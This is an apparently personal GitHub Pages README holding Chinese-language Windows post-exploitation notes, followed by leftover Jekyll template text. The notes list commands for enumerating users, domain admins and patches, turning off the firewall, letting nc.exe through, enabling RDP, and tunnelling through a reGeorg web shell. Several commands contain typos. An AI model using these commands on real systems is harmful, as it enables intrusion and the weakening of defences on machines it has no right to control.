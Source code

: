 ## 後滲透筆記

systeminfo	系統資訊
systeminfo | findstr /B /C:"OS名稱" /C:"OS版本"	查看特定資訊
wmic os get caption	查看作業系統
whoami	當前使用者
whoami /priv	當前使用者權限
ipconfig /displaydns	DNS暫存
route print	路由表
arp -a	
hostname	

--------------------------------------------
net user	
net user UserName	關於使用者資訊
net localgroup administrators	本機管理者帳號
net user /domain	網域使用者
wmic useraccount get /all 	網域使用者詳細資訊
net group "domain admins" /domain	網域管理者帳號
--------------------------------------------

net use \SMBPATH Pa$$w0rd /u:UserName	連接SMB
net localgroup	列出所有Group
net localgroup GROUP	列出指定Group資訊
net view \127.0.0.1	會話打開到當前電腦
net session	開放給其他電腦
DRIVERQUERY	列出安裝的驅動
tasklist /svc	列出task and service
Tasklist /svc|find "TermService"	查看PID
netstat -ano|find "3389"
net start	列出啟動的服務
dir /s foo	目錄搜尋指定的關鍵字
dir /s foo == bar	同上
sc query	列出所有服務
sc qc "Service"	查服務
sc qc ServiceName	找到指定服務的路徑
shutdown /r /t 0	立即重啟
type file.txt	列出檔案內容
icacls “C:\Example”	列出權限
systeminfo	列出已安装的補丁
wmic qfe get Caption,Description,HotFixID,InstalledOn	列出已安装的補丁
wmic qfe get Description,HotFixID,InstalledOn
wmic qfe get Description,HotFixID,InstalledOn | findstr /C:"KB4346084" /C:"KB4509094"  列出指定補丁
wmic product get name,version	查看目前安裝程序
共享目錄
net share
wmic share get name,path,status

### 防火牆設定
netsh firewall show config	顯示防火牆配置
netsh firewall set opmode disable	關閉防火牆(2003及以前版本)
netsh advfirewall set allprofiles state off	關閉防火牆(2003之後版本)
netsh firewall add allowedprogram c:\nc.exe "allow nc" enable	允許程式通過 (2003及以前版本)
netsh advfirewall fireall add rule name="pass nc" dir=in action=allow program="c:\nc.exe"	允許程式通過 (2003之後版本)
netsh advfirewall firewall add rule name"Allow nc" dir=out action=alow program="C:\nc.exe"
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3398 action=allow	允許3389通過
netsh advfirewall set currentprofile logging filename "C:\windows\temp\fw.log"	定義防火牆log存放位置

### 遠端服務
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber	查看遠端連結port(0xd3d)
開啟3389port#WinSer2003
wmic path win32_terminalservicesetting where (_CLASS !="") call setallowtsconnections 1	
開啟3389port#WinSer2008、2012
wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (_CLASS !="") call setallowtsconnections 1
wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName='RDP-Tcp') call setuserauthenticationrequired 1
reg add "HKLM\SYSTEM\CURRENT\CONTROLSET\CONTROL\TERMINAL SERVER" /v fSingleSessionPerUser /t REG_DWORD /d 0 /fSingleSessionPerUser

### reGeorg
[regeorg](https://github.com/sensepost/reGeorg)
python re.py -p 7788 -u http://xxxxxxxxxxx/222.jsp
proxychains rdesktop 127.0.0.1	//後續連接3389

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/cr810831cs07g/cr810831cs07g.GitHub.io/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://docs.github.com/categories/github-pages-basics/) or [contact support](https://support.github.com/contact) and we’ll help you sort it out.
